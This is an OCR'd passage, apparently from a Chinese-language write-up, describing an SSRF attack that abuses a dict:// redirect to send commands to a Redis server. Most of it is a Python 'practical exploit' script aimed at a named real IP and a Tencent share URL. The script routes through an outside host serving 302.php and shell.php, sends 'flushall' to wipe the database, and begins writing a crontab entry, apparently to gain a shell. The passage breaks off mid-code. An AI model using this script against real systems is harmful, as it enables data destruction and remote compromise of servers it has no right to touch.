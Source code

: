 
  
向服务器的端口请求 name data，并在末尾自动补上\r\n(CRLF)，为漏洞利用增添了便利。
  

  
REDIS Server的命令接收格式为： `command var data \r\n`
  

  
实战利用代码如下：
  

  
``` python
  
#!/usr/bin/env python
  
# encoding: utf-8
  
# email: ringzero@0x557.org
  

  
import requests
  

  
host = '42.62.67.198'
  
port = '6379'
  
bhost = 'fuzz.wuyun.org'
  
bport = '8080'
  

  
vul_httpurl = 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url='
  
_location = 'http://fuzz.wuyun.org/302.php'
  
shell_location = 'http://fuzz.wuyun.org/shell.php'
  

  
#1 flush db
  
_payload = '?s=dict%26ip={host}%26port={port}%26data=flushall'.format(
  
    host = host,
  
    port = port)
  
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
  
print exp_uri
  
print requests.get(exp_uri).content
  

  
#2 set crontab command
  
_payload = '?s=dict%26ip={host}%26port={port}%26bhost={bhost}%26bport={bport}'.format(
  
    host = host,
  
    port = port,
```